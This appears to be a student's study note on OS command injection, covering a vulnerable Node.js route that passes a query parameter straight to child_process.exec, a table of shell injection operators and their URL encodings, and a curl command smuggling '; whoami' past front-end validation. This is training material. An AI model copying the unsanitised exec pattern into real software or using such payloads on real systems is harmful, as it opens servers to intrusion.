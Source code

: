 ```
app.get("/createfile", function(req, res){
    child_process.exec(`touch /tmp/${req.query.filename}.txt`);
})
```



### some important character

| Operator   | Injection Character | URL-encoded character | Executed command                |
| ---------- | ------------------- | --------------------- | ------------------------------- |
| Semicolon  | `;`                 | `%3b`                 | Both                            |
| New Line   | `\n`                | `%0a`                 | Both                            |
| Background | `&`                 | `%26`                 | Both (second show first mostly) |
| Pipe       | \|                  | `%7c`                 | Both (only second shown)        |
| AND        | `&&`                | `%26c%26c`            | Both (only if first succeeds)   |
| OR         | \|\|                | `%7c%7c`              | Second (only if first fails)    |
| Sub-shell  | ``                  | `%60%60`              | Both (Linux-only)               |
| Sub-shell  | `$()`               | `%24%28%29`           | Both (Linux-only)               |

> [!NOTE]
> The only exception may be the semi-colon ;, which will not work if the command was being executed with Windows Command Line (CMD), but would still work if it was being executed with Windows PowerShell.


### Check if error msg come from backend or frontend

We can double-check this with the Firefox Developer Tools by clicking [CTRL + SHIFT + E] to show the Network tab and then clicking on the Check button again

![[Pasted image 20240502133907.png]]

However, it is very common for developers only to perform input validation on the front-end while not validating or sanitizing the input on the back-end.


## Bypassing Front-End Validation

```
curl -X POST --data 'ip=127.0.0.1%3b+whoami' http://$IP
```

![[Pasted image 20240502134506.png]]

we can bypass it with URL encode and injection character

![[Pasted image 20240502134742.png]]
